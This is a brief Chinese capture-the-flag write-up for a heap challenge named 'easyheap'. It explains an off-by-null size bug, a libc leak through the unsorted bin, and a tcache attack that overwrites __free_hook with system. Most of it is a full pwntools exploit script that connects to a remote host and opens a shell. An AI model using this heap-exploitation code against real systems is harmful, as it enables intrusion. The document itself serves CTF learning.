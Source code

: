 # easyheap
很明显add时，size获得时有逻辑问题

前后没有进行更新，导致可以任意偏移写一字节"\x00"

利用0x20大小的chunk，和size逻辑问题绕过memset和00截断，直接利用unsorted bin进行leak

而后通过任意偏移写一字节"\x00"，布置好堆布局，恰好修改到一个tcache_free_chunk的fd低字节为00，即可分配到一个构造好chunk的位置，这里我修改fd后恰好指向chunk本身，人为构造了double free的堆布局

而后tcache attack修改free_hook为system即可在free("/bin/sh")时getshell

### EXP:
```
from pwn import *
context.log_level="debug"
def add(size,note):
    p.sendlineafter(">> ","1")
    p.sendlineafter(": ",str(size))
    p.sendafter(": ",note)

def show(index):
   p.sendlineafter(">> ","2")
   p.sendlineafter(": ",str(index))

def delete(index):
   p.sendlineafter(">> ","3")
   p.sendlineafter(": ",str(index))
#p=process("./easyheap")
p=remote("123.57.209.176",30774)
add(3,"aaa")
add(3,"aaa")
delete(0)
delete(1)

p.sendlineafter(">> ","1")
p.sendlineafter(": ",str(0x100))
p.sendlineafter(": ",str(1))
p.sendafter(": ","a")

show(0)
p.recvuntil("Content: ")
heap=u64(p.recv(6)+"\x00\x00")
print hex(heap)
delete(0)

for i in range(8):
    add(0x80,"a"*0x80)
for i in range(8):
    delete(7-i)
add(8,"/bin/sh\x00")
add(3,"aaa")

p.sendlineafter(">> ","1")
p.sendlineafter(": ",str(0x100))
p.sendlineafter(": ",str(1))
p.sendafter(": ","a")

show(2)
p.recvuntil("Content: ")
libc=u64(p.recv(6)+"\x00\x00")+0x7ffff7dd7000-0x7ffff7fc2c61
print hex(libc)

p.sendlineafter(">> ","1")
p.sendlineafter(": ",str(0x91))
p.sendlineafter(": ",str(0x80))
p.sendafter(": ","b"*0x80)

add(0x80,p64(libc+0x01eeb28).ljust(0x80,"\x00"))
add(0x80,p64(libc+0x01eeb28).ljust(0x80,"\x00"))
add(0x80,p64(libc+0x0055410)+"\n")
delete(0)
p.interactive()
```